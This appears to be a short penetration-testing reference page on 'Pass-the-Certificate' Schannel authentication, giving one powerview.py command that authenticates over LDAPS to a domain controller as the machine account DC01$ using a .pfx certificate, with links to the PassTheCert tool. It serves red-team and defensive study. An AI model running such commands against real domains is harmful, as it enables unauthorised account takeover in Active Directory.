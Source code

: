 ```yaml
---
description: Schannel authentication
---
```


# Pass-the-Certificate

Authenticate with a certificate using [powerview.py](https://github.com/aniqfakhrul/powerview.py):

```
$ powerview --pfx dc01.pfx megacorp.local/'DC01$'@DC01.megacorp.local -p 636 --use-ldaps --use-channel-binding --no-admin-check --dc-ip 10.200.101.52 -ns 10.200.101.52 [--obfuscate]
```




## Tools



### PassTheCert

- [https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)
- [https://github.com/AlmondOffSec/PassTheCert](https://github.com/AlmondOffSec/PassTheCert)
